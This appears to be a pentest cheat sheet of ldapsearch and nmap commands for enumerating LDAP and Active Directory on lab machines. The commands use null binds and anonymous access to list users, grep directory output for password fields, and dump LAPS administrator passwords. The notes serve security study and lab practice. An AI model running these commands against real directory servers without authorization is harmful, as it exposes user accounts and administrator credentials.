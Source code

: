 # LDAP

### anonymous authentication&#x20;

If server accepts anonymous authentication

{% code overflow="wrap" %}
```bash
# get naming contexts
ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts
# gets all attributes
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "*" #i.e. domain = htb.local
# find user accounts
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "objectclass=user"
# get possible username
ldapsearch -x -H 'ldap://10.10.10.161:389' -b "dc=htb,dc=local" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F ": " '{print $2}'
# dump LAPS passwords
ldapsearch -D user@htb.local -w PASSWORD -o ldif-wrap=no -b 'dc=htb,dc=local' -H 'ldap://10.10.10.161:389' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
{% endcode %}

search LDAP with admin account

{% code overflow="wrap" %}
```bash
ldapsearch -x -H 'ldap://10.10.10.10:389' -D User -w P@ssw0rd123 -b "dc=htb,dc=local"
```
{% endcode %}

```
nmap -n -sV --script "ldap* and not brute" -p389,3268 192.168.105.122
```

### null bind

```
ldapsearch -x -H 'ldap://192.168.105.122:389' -D '' -w '' -b "DC=domain,DC=local"
ldapsearch -x -H 'ldap://10.10.10.182:389' -D '' -w '' -b "DC=domain,DC=local" | grep Pwd
ldapsearch -x -H 'ldap://10.10.10.182:389' -D '' -w '' -b "DC=domain,DC=local" | grep pass
# make a list of existing users
ldapsearch -x -H 'ldap://10.10.10.172:389' -D '' -w '' -b "DC=DOMAIN,DC=LOCAL" | grep sAMAccountName | tr -d ':' | sed 's/s//' | sed 's/A//' | sed 's/M//' | sed 's/A//'| sed 's/c//' | sed 's/c//'| sed 's/o//' | sed 's/u//' | sed 's/n//'| sed 's/t//' | sed 's/N//'| sed 's/a//' | sed 's/m//' | sed 's/e//' > ldapusers.txt
```

### authenticated

```
ldapsearch -H ldap://10.10.10.248 -x -W -D "user@domain.local" -b "dc=domain,dc=local"
```

## Resources

{% embed url="https://vk9-sec.com/enumerating-ad-users-with-ldap/" %}

{% embed url="https://infinitelogins.com/2020/12/09/enumerating-ldap-port-389/" %}

{% embed url="https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/" %}
